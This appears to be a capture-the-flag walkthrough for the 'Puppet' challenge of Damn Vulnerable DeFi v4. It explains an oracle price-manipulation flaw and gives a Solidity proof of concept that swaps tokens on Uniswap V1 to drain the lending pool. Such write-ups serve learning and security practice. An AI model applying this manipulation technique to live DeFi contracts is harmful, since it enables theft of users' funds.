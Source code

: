 **Objective**

_from `_isSolved()` in test_

1. _Player executed a single transaction_ `UNACHIEVABLE?`
2. _All tokens of the lending pool were deposited into the recovery account_

**Attack Analysis**

- The vulnerability relays in that the contract uses balances of ETH and DVT to compute the prices, see `_computeOraclePrice()`.
- An attacker could swap DVT tokens in the Uniswap Pool and influence the prices of the Lending Pool. This being particular easy in this case because of the low amount of assets in the pool.
- Then, the attacker could borrow assets in the lending pool at an unexpected price and drain its liquidity.

**POC**

See [test/puppet/Puppet.t.sol](https://github.com/CanonicalJP/damn-vulnerable-defi-v4-walkthrough/blob/master/test/puppet/Puppet.t.sol)

```solidity
function test_puppet() public checkSolvedByPlayer {
    Attack attackPuppet = new Attack{value: PLAYER_INITIAL_ETH_BALANCE}(token, lendingPool, uniswapV1Exchange);

    token.transfer(address(attackPuppet), PLAYER_INITIAL_TOKEN_BALANCE);
    attackPuppet.exploit(POOL_INITIAL_TOKEN_BALANCE, recovery);
}

contract Attack {
    DamnValuableToken token;
    PuppetPool lendingPool;
    IUniswapV1Exchange uniswapV1Exchange;

    constructor(DamnValuableToken _token, PuppetPool _lendingPool, IUniswapV1Exchange _uniswapV1Exchange) payable {
        token = _token;
        lendingPool = _lendingPool;
        uniswapV1Exchange = _uniswapV1Exchange;
    }

    receive() external payable {}

    function exploit(uint _amount, address _recovery) public {
        token.approve(address(uniswapV1Exchange), token.balanceOf(address(this)));
        uniswapV1Exchange.tokenToEthTransferInput(token.balanceOf(address(this)), 1, block.timestamp, address(this));
        lendingPool.borrow{value: 20e18}(_amount, _recovery);
    }
}
```

Run `forge test --mp test/puppet/Puppet.t.sol --isolate` to validate test

---